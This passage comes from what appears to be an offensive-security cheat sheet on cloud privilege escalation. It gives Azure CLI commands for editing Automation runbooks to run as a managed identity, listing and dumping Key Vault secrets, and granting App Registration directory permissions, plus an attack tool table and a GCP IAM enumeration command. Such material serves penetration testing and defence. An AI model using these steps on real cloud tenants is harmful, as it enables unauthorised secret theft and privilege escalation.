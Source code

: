 #### 💣 6. Azure Automation Account Privilege Escalation

Automation Accounts often run as system-managed identities.\
If you can edit runbooks:

```bash
az automation runbook update --automation-account-name target --name elevate --set runbookType=PowerShell
```

Run malicious script → executes as managed identity.

***

#### 🧠 7. Azure Key Vault Access

```bash
az keyvault secret list --vault-name targetvault
az keyvault secret show --name adminpassword --vault-name targetvault
```

→ Dump secrets directly from vault.

***

#### ⚙️ 8. App Registration PrivEsc

App registrations with `Application.ReadWrite.All` can modify permissions.\
Add “Owner” to yourself:

```bash
az ad app permission add --id <app-id> --api <api-id> --api-permissions Directory.ReadWrite.All=Role
```

***

#### 🧠 Azure PrivEsc Toolkit

| Tool             | Purpose                                               |
| ---------------- | ----------------------------------------------------- |
| **ROADTools**    | Enumerate and manipulate Azure AD                     |
| **StormSpotter** | Visualize relationships & attack paths                |
| **AzureHound**   | BloodHound for Azure                                  |
| **MicroBurst**   | PowerShell tool for Azure reconnaissance & escalation |

***

### IV. ⚙️ GCP Privilege Escalation

#### 🧠 1. Enumerate IAM Roles

```bash
gcloud projects get-iam-policy project-id
```

